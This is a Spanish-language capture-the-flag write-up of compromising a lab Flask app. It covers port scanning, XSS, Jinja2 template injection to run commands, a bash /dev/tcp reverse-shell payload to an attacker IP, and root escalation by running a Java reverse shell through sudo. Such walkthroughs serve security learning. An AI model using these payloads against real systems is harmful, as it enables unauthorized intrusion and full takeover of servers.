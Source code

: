 # Info
## IP Víctima
```
172.17.0.2
```

# Writeup
## Reconocimiento
### Escaneo de puertos
En primer lugar, como siempre, lanzamos un escaneo de puertos para identificar los servicios abiertos en sus respectivos puertos:
```shell
❯ nmap -p 0-65535 --open -T5 -A -sT -Pn -n 172.17.0.2 -oX nmapScan.xml && xsltproc nmapScan.xml -o nmapScan.html && open nmapScan.html &>/dev/null & disown
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-01 18:02 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000089s latency).
Not shown: 65535 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
5000/tcp open  http    Werkzeug httpd 3.0.1 (Python 3.12.3)
|_http-title: Pingu Flask Web
|_http-server-header: Werkzeug/3.0.1 Python/3.12.3
MAC Address: 02:42:AC:11:00:02 (Unknown)
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, OpenWrt 21.02 (Linux 5.4), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 1 hop
```
Nos encontramos con un servidor HTTP corriendo en el puerto 5000 sobre Werkzeug 3.0.1 y Python 3.12.3, del escaneo nada más salta a la vista, así que vamos a echarle un vistazo a la página web. Nos encontramos con un formulario de registro que pide los siguientes campos: nombre, cumpleaños, email y teléfono.
El único campo que hace algún cambio relevante es el de nombre, al clicar en Save te redirige a /greet, donde leemos un mensaje que lee Hola *nombre que hemos puesto en el campo*! 
Con esta información lo que podríamos probar es distintos payloads de XSS o SQLi, mientras tanto dejaré fuzzing trabajando a ver si encuentra alguna ruta interesante.
## Explotación
#### XSS
Con tan solo probar el segundo payload ya vemos que el formulario es efectivamente vulnerable a XSS, al probar esto `<script>alert(1)</script>` en el campo del nombre, nos salta una alerta del navegador, confirmando la vulnerabilidad.
Además, el FFUF ha dado con la ruta /console, pero al tratar de acceder a ella nos solicita un PIN que no tenemos.
#### SSTI
Después de leer y probar un rato distintas cosas con XSS, finalmente obtengo un error probando payloads de SSTI. Hago las pruebas correspondientes siguiendo las instrucciones de [PayLoadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection): 
1. Ponemos en el input que sospechamos vulnerable un payload comodín que hace saltar un error en la mayoría de ocasiones en casi cualquier template engine. `${{>%[%'"}}%\. ` 
2. Probamos distintos payloads con el fin de obtener el template engine que está corriendo en el servidor web, en este caso, ya con el primer payload `{{7*7}}` sabemos que es Jinja2
3. Con esa información en mente, podemos, con esta línea, ejecutar un comando a nivel de sistema `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}`
4. Una vez esa línea nos devuelve el siguiente output *Hello uid=1001(pinguinazo) gid=1001(pinguinazo) groups=1001(pinguinazo),100(users) !* podemos ir a por la reverse shell introduciendo este payload:
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen("bash -c 'bash -i >& /dev/tcp/192.168.1.157/443 0>&1'").read() }}
```

## Post explotación
#### Escalada de privilegios
Al lanzar sudo -l, vemos que el usuario puede ejecutar el binario java con permisos root
```bash
pinguinazo@29a22f0dc193:~/flask_ssti_lab$ sudo -l
sudo -l
Matching Defaults entries for pinguinazo on 29a22f0dc193:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User pinguinazo may run the following commands on 29a22f0dc193:
    (ALL) NOPASSWD: /usr/bin/java
```
Ya que en GTFObins no encuentro nada, voy directo a RevShells, de donde saco una reverse shell de java. Desde mi máquina levanto un servidor HTTP con `python3 -m http.sever` y con curl lo descargo desde la otra revshell activa, una vez la shell esta instalada, me pongo en escucha en una nueva terminal y ejecuto el comando como root: `sudo /usr/bin/java rev.java`, cuando tabulo hacia mi otra consola, veo que ya soy root.
```
root@29a22f0dc193:/home/pinguinazo/flask_ssti_lab# whoami
whoami
root
```
